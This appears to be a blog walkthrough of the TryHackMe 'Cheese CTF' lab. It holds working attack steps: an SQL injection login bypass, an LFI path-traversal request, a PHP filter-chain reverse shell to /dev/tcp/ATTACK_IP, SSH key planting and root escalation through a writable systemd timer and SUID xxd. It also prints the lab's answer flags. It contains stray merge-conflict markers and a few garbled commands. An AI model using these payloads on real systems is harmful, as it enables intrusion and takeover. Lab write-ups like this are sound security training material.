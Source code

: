 ```yaml
---
title: 'TryHackMe: Cheese CTF'
author: Neo-Virex
date: 2025-02-13 08:00:00 +0000
categories: [TryHackMe, CTF, Walkthrough]
tags: [Cheese, CTF, HackTheBox, Linux, Exploit]
render_with_liquid: false
media_subpath: /images/tryhackme/tryhackme_cheese_ctf/
image:
  path: room_img.png
description: A detailed walkthrough of the Cheese CTF challenge, covering reconnaissance, enumeration, exploitation, and privilege escalation.
---
```

<<<<<<< HEAD


=======
>>>>>>> 3a866c37e761dc88f32816a61b6a46bcb09b60fe

**Challenge completed:** February 21, 2025 @ 13:20 (+03:00)

## Reconnaissance

All ports were open, but the most critical services were on ports **22** (SSH) and **81** (HTTP).

```bash
rustscan -a 10.10.26.46
```

```
Open 10.10.26.46:1 3 4 5 6 8 9 10 11 13 14 16 17 18 20 22 23 24 28 30 31 32 33 38 41 42 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 74 75 76 79 81 84
```

## Service Enumeration

Brute‑forcing directories with **feroxbuster** revealed key endpoints:

```bash
feroxbuster -u http://10.10.26.46/ -w /usr/share/wordlists/dirb/big.txt
```

```
200  /images/cheese1.jpg
200  /style.css
200  /images/cheese2.jpg
200  /images/cheese3.jpg
200  /login.php
```

## Web Application Analysis

![Login Page](img1.png){: width="600" height="150" .shadow }
![Directory Listing](img2.png){: width="600" height="150" .shadow }

The login form was vulnerable to **SQL injection**. Bypassing authentication with:

```sql
username: ' OR 1=1;-- -
password: anything
```

granted a shell on the web server.

## Exploit & Initial Access

Accessing `/secret-script.php?file=../../../etc/passwd` confirmed a Local File Inclusion (LFI):

```http
GET /secret-script.php?file=../../../etc/passwd HTTP/1.1
Host: 10.10.26.46
```

> Snippet from `/etc/passwd`:
>
> ```text
> root:x:0:0:root:/root:/bin/bash
> ```

daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...

> ```
> ```
![Directory Listing](img3.png){: width="600" height="150" .shadow }


## Privilege Escalation

A PHP filter chain exploit was generated via [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) and the [php\_filter\_chain\_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
python3 php_filter_chain_generator.py \
  --chain '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/ATTACK_IP/8084 0>&1\'"); ?>' \
  | grep "php" > payload.txt
```

A listener was started:

```bash
nc -lvnp 8084
```

The payload was URL‑encoded and sent:

```bash
curl -o response.txt "http://10.10.26.46/secret-script.php?file=$(tail -n1 payload.txt)"
```

This yielded a `www-data` shell:

```bash
www-data@cheesectf:/var/www/html$ ls
adminpanel.css images index.html login.css login.php messages.html orders.html secret-script.php style.css supersecretadminpanel.html supersecretmessageforadmin users.html
```

## SSH Pivot & User Flag

The attacker’s public key was added to `/home/comte/.ssh/authorized_keys`:

```bash
echo "ssh-ed25519 AAAAC... neo@lab" >> /home/comte/.ssh/authorized_keys
```

SSH’ing as **comte**:

```bash
ssh -i ~/.ssh/id_ed25519 comte@10.10.177.192
cat user.txt  # THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}
```

## Lateral Movement & Final Escalation

`comte` had passwordless sudo rights on the `exploit.timer` systemd unit:

```bash
sudo systemctl daemon-reload
enable exploit.timer
start exploit.timer
```

`exploit.service` copies `/usr/bin/xxd` to `/opt/xxd` with SUID:

```ini
# /etc/systemd/system/exploit.service
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && chmod +sx /opt/xxd"
```

By editing the writable timer (`/etc/systemd/system/exploit.timer`) and reloading:

```ini
[Timer]
OnBootSec=5s
```

`xxd` was leveraged to write an SSH key into root’s `authorized_keys`:

```bash
echo 'ssh-ed25519 AAAA... kali@kali' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

SSH to **root** and capture root flag:

```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.177.192
cat root.txt  # THM{dca75486094810807faf4b7b0a929b11e5e0167c}
```

---

### Flags

* **User:** `THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`
* **Root:** `THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
